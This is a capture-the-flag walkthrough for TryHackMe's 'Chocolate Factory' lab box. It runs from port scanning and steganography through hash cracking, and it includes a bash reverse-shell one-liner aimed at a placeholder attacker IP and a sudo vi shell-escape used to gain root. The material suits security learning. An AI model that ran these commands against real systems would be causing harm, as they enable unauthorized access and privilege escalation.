 # 📝 Writeup – Chocolate Factory (TryHackMe)

---

## TL;DR
Found lots of noisy ports. Real services: FTP , HTTP, and a weird local-download binary at `/key_rev_key`. Pulled a hidden file from an image via `steghide`, cracked a SHA512crypt hash to get `charlie`'s password, used that to get a reverse shell as `www-data`, grabbed `charlie`'s SSH key, SSH'd in, and finally used `sudo vi -c ':!/bin/sh' /dev/null` to pop root. Root flag retrieved by running `root.py` locally with the found key.

---

## ENUMERATION
Start standard:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Ports found: `21,22,80,100-125` (lots of fake services). Do a focused scan:

```bash
nmap -p21,22,80,100-125 -sC -sV -vv -oN scan.nmap <IP>
```

Screenshots:
![nmap](screenshots/nmap1.png)
![nmap](screenshots/nmap2.png)

Note: Port `113`'s service hinted a key at `http://localhost/key_rev_key` — if the webserver binds 0.0.0.0 you can fetch it via `http://<IP>/key_rev_key`. Keep that in mind.

---

## FTP (Port 21) — find a suspicious image

Anonymous FTP was allowed. Connect and pull `gum_room.jpg`:

```bash
ftp <IP>
# login as anonymous
get gum_room.jpg
```

Open it with `file`/`exiftool` — looks normal. But I suspected hidden data → try `steghide`:

```bash
steghide info gum_room.jpg
steghide extract -sf gum_room.jpg
# If it asks for a passphrase, try empty (some challenges do this)
```

Screenshots:
![gum\_room](screenshots/gun_room.png)
![steghide](screenshots/steghide.png)

Extraction gave `b64.txt`. Decode it:

```bash
cat b64.txt | base64 -d 
```

Decoded contents looked like a `/etc/shadow`-style hash for user `charlie` (format: `$6$salt$hash` → SHA512crypt).

---

## Crack the hash → get `charlie`'s password

Use `hashcat` with rockyou (or similar):

```bash
# example: -m 1800 is for sha512crypt
hashcat -a 0 -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```

Screenshot:
![hash.txt](screenshots/hash.png)

We cracked `charlie`'s password. Time to hit the web app.

---

## Web (Port 80) — login → command execution

Use credentials `charlie:<password>` on the site. Login success → land on `/home.php` which allows executing shell commands (or a command field that leads to a shell).

Screenshot:
![home.php](screenshots/home.png)

Get a reverse shell listener and spawn a shell from the web app (example):

```bash
# attacker
nc -nvlp 4444

# on target (via web command)
bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"
```

Now we have a `www-data` shell.

---

## Check `/key_rev_key` and downloaded binary

Visiting `http://<IP>/key_rev_key` downloaded a binary. I ran `strings` to quickly see readable data:

```bash
strings key_rev_key
```

Screenshot:
![strings](screenshots/strings.png)

The binary contained some key or text that later helped (used to run root.py). Save it.

---

## Privilege escalation — www-data → charlie

Inside `www-data` shell, I found `charlie`'s SSH private key in `/home/charlie` (or similar). Save it locally and set permissions:

```bash
# copy the key onto your attacker machine (or echo it into a file)
# locally:
chmod 600 id_rsa
ssh -i id_rsa charlie@<IP>
```

Screenshot:
![rsa\_key](screenshots/rsa_key.png)

SSH in as `charlie`.

---

## charlie → root

Check sudo:

```bash
sudo -l
```

We saw `charlie` can run `/usr/bin/vi` as root without password. `vi`/`vim` is a classic GTFO/bin for root shells. Use the one-liner:

```bash
sudo vi -c ':!/bin/sh' /dev/null
```

This spawns a root shell.

Screenshot:
![sudo](screenshots/sudo-l.png)
![root](screenshots/root.png)

---

## Root flag

To fetch the root flag, the box had `root.py`. I copied the contents and executed it locally using the key I earlier obtained from `key_rev_key`. The flag printed.

Screenshot:
![root.py](screenshots/root_flag.png)

---

## Notes, corrections & tips

* `steghide extract` can succeed with empty passphrase — try blank if you’re stuck.
* Always `chmod 600` on private keys before SSH’ing.
* `strings` is a speedrun tool — good for quick binary hints; for deeper analysis use `r2`/`ghidra`/`gdb`.
* `sudo vi -c ':!/bin/sh' /dev/null` works because `vi` runs shell commands with elevated privileges; abuse carefully.
* If the web server is bound to `127.0.0.1` only, you might need SSRF or a port-forward from the host — but in this box it was accessible via the host IP.

---

## References / further reading

* `steghide` docs / manpage
* hashcat wiki (hash modes)
* GTFOBins — `vi` tricks: [https://gtfobins.github.io/gtfobins/vi/](https://gtfobins.github.io/gtfobins/vi/)

---

## Ethics & disclaimer

This walkthrough is for lab/learning only. Don’t run these techniques on systems you don’t own or have permission to test. Be chill and responsible.

---

